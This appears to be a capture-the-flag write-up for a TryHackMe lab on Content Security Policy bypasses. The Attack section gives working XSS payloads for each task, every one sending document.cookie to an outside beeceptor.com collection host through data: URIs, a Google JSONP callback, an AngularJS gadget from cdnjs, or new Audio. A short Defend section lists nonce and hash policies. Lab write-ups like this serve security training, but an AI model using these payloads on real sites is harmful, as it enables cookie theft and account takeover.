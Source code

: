 # [Content Security Policy writeup](https://tryhackme.com/room/csp)
### Tools
###### Blue Team
[Evaluator](https://csp-evaluator.withgoogle.com/)
[Hasher](https://report-uri.com/home/hash)
[Generator](https://report-uri.com/home/generate)
###### Red Team
[JSONP Bypass](https://github.com/A1vinSmith/JSONBee/blob/master/jsonp.txt)
[Exfiltrator](https://beeceptor.com/)

### Payload
```
fetch(`https://randomcsp.free.beeceptor.com/${document.cookie}`)

eval(document.location='https://randomcsp.free.beeceptor.com/'.concat(document.cookie))
```

### Attack
###### task 1
```
<BODY ONLOAD=fetch(`https://randomcsp.free.beeceptor.com/${document.cookie}`)>
```

###### task 2 (`script-src data:`)
```
<script src="data:application/javascript,fetch(`https://randomcsp.free.beeceptor.com/${document.cookie}`)"></script>
```
The alternative way is using `data:;base64,iVBORw0KGgo...`

```
echo -n 'fetch(`https://randomcsp.free.beeceptor.com/${document.cookie}`)' | base64

<script src="data:;base64,ZmV0Y2goYGh0dHBzOi8vcmFuZG9tY3NwLmZyZWUuYmVlY2VwdG9yLmNvbS8ke2RvY3VtZW50LmNvb2tpZX1gKQ=="></script>
```

###### task 3 (`img-src *; script-src 'unsafe-inline'`)
```
<IMG id="randomcspsmith" SRC="">
<script>document.getElementById('randomcspsmith').src="https://randomcsp.free.beeceptor.com/" + document.cookie;</script>
```

###### task 4 (`style-src * 'self'; script-src 'nonce-abcdef'`)
```
<link id="randomcspsmith" rel=stylesheet href="" /><script nonce="abcdef">document.getElementById('randomcspsmith').href="https://randomcsp.free.beeceptor.com/" + document.cookie;</script>
```

###### task 5 (JSONP endpoints, `script-src 'unsafe-eval' *.google.com`)
```
<script src="//accounts.google.com/o/oauth2/revoke?callback=eval(document.location='https://randomcsp.free.beeceptor.com/'.concat(document.cookie))"></script>
```

###### task 6 (Trust CDN? `script-src 'unsafe-eval' cdnjs.cloudflare.com`)
CDN is way too generous. They're not only providing dependence for your website also for the hackers. When setting up the script-src directive and its sources, you should pay special attention to what you're allowing to load. If you're loading a script from an external source such as a CDN, make sure you're specifying the full URL of the script or a nonce/SHA hash of it and not just the hostname where it's hosted at, unless you're 100% sure no scripts that could be used to bypass your policy are hosted there. For example, if you're including jQuery from cdnjs on your website, you should include the full URL of the script `script-src cdnjs.cloudflare.com/ajax/.../jquery.min.js` or the SHA256 hash in your policy. Most CDNs allow you to get the script hash somewhere on their site.

```
<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.3/prototype.min.js" integrity="sha512-C4LuwXQtQOF1iTRy3zwClYLsLgFLlG8nCV5dCxDjPcWsyFelQXzi3efHRjptsOzbHwwnXC3ZU+sWUh1gmxaTBA==" crossorigin="anonymous"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.2/angular.min.js"></script>
<div ng-app ng-csp>

{{$on.curry.call().document.location='https://randomcsp.free.beeceptor.com/' + $on.curry.call().document.cookie}}

</div>
```
https://cdnjs.com/
https://blog.0daylabs.com/2016/09/09/bypassing-csp/

###### task 7
After checking [Evaluator](https://csp-evaluator.withgoogle.com/)
```
default-src 'none';
media-src *;
style-src 'self';
script-src 'self'
```

'self' can be problematic if you host JSONP, Angular or user uploaded files.

`media-src` specifies the URLs from which video, audio and text track resources can be loaded from.
Checking [MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/media-src)

This one is the hardest and the best.
1. The 404 pages will show up whatever you put in. means this one match `can be problematic if you host JSONP, Angular or user uploaded files.`
2. Need to understand how `script-src 'self';` works. It means something like `ip:3008/defend-1.js` will be executed.
3. Then try to close the tag with `'`
4. What to do after fetch, window.open, document.location are blocked by CSP? The answer is `media-src` `new Audio`
5. Use relative path for the 404 page, also a browser won't block your input for `Phishing`
6. final answer is 
-----
-----
-----
-----
-----
-----
-----
-----
-----
-----
-----
-----
-----
-----
-----
-----
-----
-----


```
<script src="/'; new Audio('https://randomname.free.beeceptor.com/' + document.cookie); '"></script>
```


### Defend
###### task 1
script-src 'self';

###### task 2
script-src 'nonce-ae3b00';

###### task 3 (Inline JS)
[Hasher](https://report-uri.com/home/hash) to generate the hash for that inline javascript.
script-src 'sha256-8gQ3l0jVGr5ZXaOeym+1jciekP8wsfNgpZImdHthDRo='


### Expand Knowledge
https://content-security-policy.com/#directive

